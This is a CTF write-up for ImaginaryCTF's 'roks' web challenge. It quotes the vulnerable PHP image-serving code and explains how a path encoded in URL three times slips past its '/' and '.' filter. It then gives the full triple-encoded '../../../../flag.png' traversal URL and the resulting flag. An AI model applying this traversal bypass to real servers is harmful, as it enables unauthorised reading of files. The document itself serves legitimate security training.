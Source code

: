 # roks

## Description

> My rock enthusiast friend made a website to show off some of his pictures. Could you do something with it?
>
> Author: FIREPONY57
>
> https://imaginaryctf.org/r/0Sm4V#roks.zip \
> http://roks.chal.imaginaryctf.org

Tags: _web_

## Solution

This is a web app to see random rock pictures, we are provided with the source code which in summary tells us that the app is in the /var/www/html directory, pictures are retrieved from /var/www/html/images, the flag is at the root and the image displayed is defined using the `file` parameter passed through the URL and is subject to the following validation:

```php
<?php
  $filename = urldecode($_GET["file"]);
  if (str_contains($filename, "/") or str_contains($filename, ".")) {
    $contentType = mime_content_type("stopHacking.png");
    header("Content-type: $contentType");
    readfile("stopHacking.png");
  } else {
    $filePath = "images/" . urldecode($filename);
    $contentType = mime_content_type($filePath);
    header("Content-type: $contentType");
    readfile($filePath);
  }
?>
```

The provided file path is decoded from the URL twice, first in [`$_GET`](https://www.php.net/manual/es/reserved.variables.get.php) and then in the [`urldecode()`](https://www.php.net/manual/en/function.urlencode.php) function. If the file path contains whether the character `/` or `.` the app will return a funny image asking not to hack the website.

![stopHacking](roks/stopHacking.png)

This validation is intended to prevent the site from directory path traversal attacks. However, it does not have in account a path encoded in URL three times. In this way, the path would be encoded once when it reaches the validation check, and it wouldn't be recognized as either `/` or `.` by [`str_contains()`](https://www.php.net/manual/en/function.str-contains.php), allowing it to pass the validation.
Therefore, we can use the payload `../../../../flag.png` encoded in URL three times, and put it in the `file` parameter to retrieve the `flag.png`, like this (you can use an encoder like the BurpSuite's one or an online encoder):

```
http://roks.chal.imaginaryctf.org/file.php?file=%25%32%35%25%33%32%25%36%35%25%32%35%25%33%32%25%36%35%25%32%35%25%33%32%25%36%36%25%32%35%25%33%32%25%36%35%25%32%35%25%33%32%25%36%35%25%32%35%25%33%32%25%36%36%25%32%35%25%33%32%25%36%35%25%32%35%25%33%32%25%36%35%25%32%35%25%33%32%25%36%36%25%32%35%25%33%32%25%36%35%25%32%35%25%33%32%25%36%35%25%32%35%25%33%32%25%36%36%25%32%35%25%33%36%25%33%36%25%32%35%25%33%36%25%36%33%25%32%35%25%33%36%25%33%31%25%32%35%25%33%36%25%33%37%25%32%35%25%33%32%25%36%35%25%32%35%25%33%37%25%33%30%25%32%35%25%33%36%25%36%35%25%32%35%25%33%36%25%33%37
```

Well done! We successfully retrieved the flag!

![flag](flag.png)

Flag `ictf{tr4nsv3rs1ng_0v3r_r0k5_6a3367}`
